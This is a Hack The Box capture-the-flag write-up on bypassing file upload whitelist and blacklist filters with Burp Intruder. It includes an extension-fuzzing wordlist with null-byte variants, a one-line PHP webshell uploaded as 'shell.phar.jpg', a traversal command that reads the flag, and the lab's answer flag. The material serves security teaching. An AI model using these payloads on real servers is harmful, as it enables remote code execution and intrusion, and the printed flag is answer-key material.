# Hack The Box - Bypassing Whitelist Filters for File Upload Attacks | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** Web / File Upload &nbsp;•&nbsp; **Difficulty:** Medium
>
> **Target:** `154.57.164.77:30203` &nbsp;•&nbsp; **Time taken:** 25 mins
>
> **Author:** Jithin Jelson

---

## Introduction

This lab requires us to bypass some of the whitelist and blacklist features implemented on the file upload vulnerability we are given to exploit.

---

## Assessment Overview



---

## What I Learned

- How a blacklist and a whitelist can run together on the same upload form, each covering the other's gaps.
- Why a strict whitelist regex anchored with `$` defeats the classic double extension trick.
- Using Burp Intruder to fuzz a large extension wordlist and read the response messages to tell which filter is blocking.
- That comparing two different error messages ("Extension not allowed" versus "Only images are allowed") reveals which extension slips past the blacklist.
- Abusing a reverse double extension like `shell.phar.jpg` so the filename passes both filters while Apache still executes it as PHP.
- Chaining a bypass into a working webshell to get command execution as `www-data` and read the flag.

---

## Getting Started

We can start by booting up our target IP address and Burp Suite.



*Figure 1 - The target profile image upload page.*

---

## Building the Wordlist and Fuzzing

Unlike the previous exercises, this file upload vulnerability is said to contain both blacklist and whitelist features. Let's try to use a wordlist that allows us to try double extensions. We're going to use a wordlist that contains both double extensions and reverse double extensions, as we will also use some character injection as well.

```
.jpeg.php
.jpg.php
.png.php
.php
.php3
.php4
.php5
.php7
.php8
.pht
.phar
.phpt
.pgif
.phtml
.phtm
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
.inc
```

This is the wordlist we will be using. We can put this into Burp Intruder.



*Figure 2 - Intercepting a normal image upload and sending it to Intruder.*

We uploaded an image and now we will use Intruder to try to fuzz out what will be bypassed by either the PHP code or the Apache server.



*Figure 3 - The extension wordlist loaded into the Intruder payload position on the filename.*

---

## Understanding the Bypasses

If the `jpg.php` triggers, it means that the validation is only checking whether the file contains `.jpg`, so a simple `.php` at the end would bypass this. However, if the code is checking properly, we can reverse this to make it `.php.jpg`. In this instance it would bypass the code as it ends in `.jpg`, but the Apache web server would be tricked and would execute anything with PHP.

We can see that PHP with character injection of the null byte gets processed. Our web server allows it to go through as `.jpg` is accepted, however the null byte tricks our PHP as it is probably running an old version and cuts it off at that point, which the Apache web server then uses as `.php`. We can now use this to try to write a reverse shell.



*Figure 4 - The `.php\x00.jpg` payloads return a larger response and upload successfully during the fuzz.*



*Figure 5 - Uploading `shell3.php\x00.jpg` with the webshell as the file content.*

---

## No Command Execution

However, when I went back to the website it seems we don't get RCE.



*Figure 6 - The file is stored as `x00.jpg` and cannot be executed, so the null byte trick does not land here.*

---

## Comparing the Error Messages

It seems maybe the blacklist filter is blocking our `.php`. I went back to my Intruder results to see all the error types.

It seems that `.phar` went through and didn't get recognised as a PHP extension. If we compare the two different extensions we get two different messages.



*Figure 7 - `.phar` returns "Only images are allowed", so it passed the blacklist and was only stopped by the whitelist.*



*Figure 8 - `.php` returns "Extension not allowed", so it is the blacklist that blocks it.*

While in a real life scenario this is probably not going to be the case and all error messages will most likely be the same, this is useful to us in this scenario. We can also see that ending it with a `.jpg` seems to upload the file.



*Figure 9 - Uploading `shell.phar.jpg` with `<?php system($_GET['cmd']); ?>` as the content.*

---

## Reverse Double Extension and RCE

With this knowledge we can attempt to see if `shell.phar.jpg` will execute.



*Figure 10 - Running `?cmd=id` returns `uid=33(www-data)`, so we have command execution.*

And it seems we were able to do it!

The final flag is situated at:

```
profile_images/shell.phar.jpg?cmd=cat+../../../../flag.txt
```



*Figure 11 - Reading the flag through the webshell.*

> Bypass both filters to upload a PHP script and execute code to read "/flag.txt".

**Answer:** `HTB{1_wh173l157_my53lf}`

(Note: my machine terminated, that's why there is a change of IP address.)
